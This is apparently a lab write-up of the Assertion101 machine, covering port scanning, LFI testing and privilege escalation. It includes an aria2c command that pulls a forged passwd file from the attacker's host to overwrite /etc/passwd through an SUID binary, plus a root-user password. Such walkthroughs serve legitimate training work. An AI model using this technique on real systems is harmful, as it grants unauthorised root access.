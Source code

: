 
+++
title = "Assertion101"
date = 2024-11-03T10:24:00
draft = false
tags = 
+++
Recon :


a quick rustscan to find open ports on the target

![Pasted image 20241024182502.png](/images/Pasted image 20241024182502.png)

Scanning : 
then a nmap scan for banner grabbing for the open ports

![Pasted image 20241024182934.png](/images/Pasted image 20241024182934.png)

```
# Nmap 7.94SVN scan initiated Thu Oct 24 18:25:45 2024 as: /usr/lib/nmap/nmap -p 22,80 -sCV -oN assertion.txt 192.168.170.94
Nmap scan report for 192.168.170.94
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Assertion
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 24 18:25:54 2024 -- 1 IP address (1 host up) scanned in 8.80 seconds
```

Enumeration : 

From the nmap scan, we could deduce that Os runs Linux and specifically.

There is a apache web server running, would enumerate it.

The website is about fitness. 

![Pasted image 20241024203759.png](/images/Pasted image 20241024203759.png)




fuzzing for hidden endpoints 

![Pasted image 20241024203907.png](/images/Pasted image 20241024203907.png)

/pages shows this php files.

![Pasted image 20241024203723.png](/images/Pasted image 20241024203723.png)

From the main page, clicked on the about-us 

![Pasted image 20241024204155.png](/images/Pasted image 20241024204155.png)

Test for lfi 
![Pasted image 20241024204233.png](/images/Pasted image 20241024204233.png)

using payload of /etc/passwd,there is an error "file does not exist"

could try other payloads or automate it by fuzzing.. 

While manually trying different payloads and methologies, the box creator sends us messages.. 

Will continue testing..

Tried everything i knew but was futile, reading over stackoverflow, someone talked about this attack, 

simple detailed explanation on how it works.. 





![Pasted image 20241101164653.png](/images/Pasted image 20241101164653.png)

going 1 step from the html directory, the local.txt file 

![Pasted image 20241101170919.png](/images/Pasted image 20241101170919.png)

Next, to attempt privilege escalation to the user..

importing linpeas 

![Pasted image 20241101173401.png](/images/Pasted image 20241101173401.png)

There is unknown binary, will enumerate more..

![Pasted image 20241101173511.png](/images/Pasted image 20241101173511.png)

great

![Pasted image 20241103092231.png](/images/Pasted image 20241103092231.png)


the `/usr/bin/aria2c` executable, which is a command line download utility. We can use it to overwrite some important files. For example, we can use it to overwrite the root’s authorized_keys file.


It can be used read files as well or 

![Pasted image 20241103090035.png](/images/Pasted image 20241103090035.png)

read it normally.. 
![Pasted image 20241103101114.png](/images/Pasted image 20241103101114.png)


in this scenario, will copy the existing passwd file and add a new user with root rights and copy to the target to the /etc directory using the aria2c binary.

![Pasted image 20241103101150.png](/images/Pasted image 20241103101150.png)



```/usr/bin/aria2c -o passwd "http://192.168.45.219:8000/newpass" --allow-overwrite=true
```


![Pasted image 20241103100413.png](/images/Pasted image 20241103100413.png)

then switch user to Tom and enter the password (Password@973)

![Pasted image 20241103100632.png](/images/Pasted image 20241103100632.png)

got the last flag.. 

Thanks for reading.. 


Lfi , suid abuse 

